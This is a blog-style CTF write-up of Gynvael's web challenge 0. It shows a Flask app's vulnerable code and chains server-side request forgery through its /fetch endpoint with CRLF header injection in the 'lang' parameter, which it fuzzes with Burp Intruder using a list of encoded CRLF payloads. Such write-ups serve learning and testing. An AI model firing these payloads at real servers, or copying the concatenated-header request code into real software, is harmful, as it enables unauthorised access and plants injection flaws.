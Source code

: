 ```yaml
---
layout: post
title: Gynvael's web security challenge - part 0.
subtitle: Quick hacking at the weekend.
gh-repo: daattali/beautiful-jekyll
tags: [ctf, hacking, challenges]
comments: true
---
```


Over the weekend I have decided to play with Gynvael's web security challenges. The post prestes the write-up of the challenge 0.
The challenge is located under the following URL:
http://challenges.gynvael.stream:5000/

The challenge is simple FLASK application running as the Werkzaug - flask development web server.
After the quick code analysis we see that to complete the challenge we must get the response from the /secret endpoint

```
@app.route('/secret')
def secret():
  if request.remote_addr != "127.0.0.1":
    return "Access denied!"

  if request.headers.get("X-Secret", "") != "YEAH":
    return "Nope."

  return f"GOOD WORK! Flag is {FLAG}"
```

To get the flag we would have to bypass to conditional checks, first requirement is that the request must come from the localhost. The second requirement is that the HTTP request must have the X-Secret HTTP header with the value of YEAH.

So, the get the flag, we would have to exploit the Server Side Request Forgery on the same server, to be able to send HTTP request to loopback interface. Then, we would have to find the HTTP Header Injection sometimes called CRLF injection to be able to send the custom X-Secret HTTP header.

Luckly for us the web server exposes other endpoint /fetch:
```
@app.route('/fetch', methods=["POST"])
def fetch():
  url = request.form.get("url", "")
  lang = request.form.get("lang", "en-US")

  if not url:
    return "URL must be provided"

  data = fetch_url(url, lang)
  if data is None:
    return "Failed."

  return Response(data, mimetype="text/plain;charset=utf-8")
```

Analyzing the parameters that the endpoint expects - url and lang, we can say that the endpoint perform SSRF for us by calling the fetch_url(url,lang) function. Interesting part in the fetch_url(url,lang) function is the part describing how the HTTP request is built:

```
  req = '\r\n'.join([
    f"GET {o.path} HTTP/1.1",
    f"Host: {o.netloc}",
    f"Connection: close",
    f"Accept-Language: {lang}",
    "",
    ""
  ])
```

As we can see it is a simple string concatenation, so we would be able to provide the end of line characters and inject arbitrary HTTP Header to the request.

Let's go the exploitation, I would use the Burp Sutie Community Edition for that. We first try to send the request to http://localhost:5000/secret without changing the language parameter.

![gyn_0](../../master/img/2020-05-24-gyn0_1.png)


With that request, we would hit the second condition as the HTTP Header X-Secret is not set. Then, I would use Intruder to try different payloads for injecting the CRLF.

![gyn_0](../../master/img/2020-05-24-gyn0_2.png)

I have prepared the following list of payloads to try which has some of the common encoded characters to do CRLF injection.
```
%0a%0aX-Secret:%20YEAH
%0aX-Secret:%20YEAH
%0d%0aX-Secret:%20YEAH
%0dX-Secret:%20YEAH
%23%0aX-Secret:%20YEAH
%23%0d%0aX-Secret:%20YEAH
%23%0dX-Secret:%20YEAH
%25%30%61X-Secret:%20YEAH
%25%30aX-Secret:%20YEAH
%250aX-Secret:%20YEAH
%25250aX-Secret:%20YEAH
%2e%2e%2f%0d%0aX-Secret:%20YEAH
%2f%2e%2e%0d%0aX-Secret:%20YEAH
%2F..%0d%0aX-Secret:%20YEAH
%3f%0d%0aX-Secret:%20YEAH
%3f%0dX-Secret:%20YEAH
%u000aX-Secret:%20YEAH
```

![gyn_0](../../master/img/2020-05-24-gyn0_3.png)

Additionally, we go the Options tab and set the Grep-Match to "GOOD WORK!" as this shows up when the flag is returned.

![gyn_0](../../master/img/2020-05-24-gyn0_4.png)

Then, we click "Start Attack", and see the results.

![gyn_0](../../master/img/2020-05-24-gyn0_5.png)

As we can see few of the Intruder's requests returned the flag. We can now view the response with the flag.